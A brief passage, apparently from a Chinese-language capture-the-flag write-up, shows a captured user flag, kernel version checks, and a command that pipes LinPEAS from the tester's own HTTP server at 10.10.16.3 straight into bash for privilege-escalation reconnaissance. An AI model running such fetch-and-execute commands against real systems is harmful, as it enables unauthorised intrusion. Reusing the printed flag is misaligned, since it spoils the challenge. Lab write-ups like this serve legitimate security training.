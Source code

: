 user flag

```
0c7e023577d0e134ff4ddd0cf687d448
```



查看内核版本

```
uname -a
cat /proc/version
ubuntu 5.15
```

![image-20231222153108202](../图片/image-20231222153108202.png)

使用python开启http服务使用LinPEAS找隐私信息

```
curl http://10.10.16.3:4455/linpeas.sh | bash
```

![image-20231221145555693](../图片/image-20231221145555693.png)
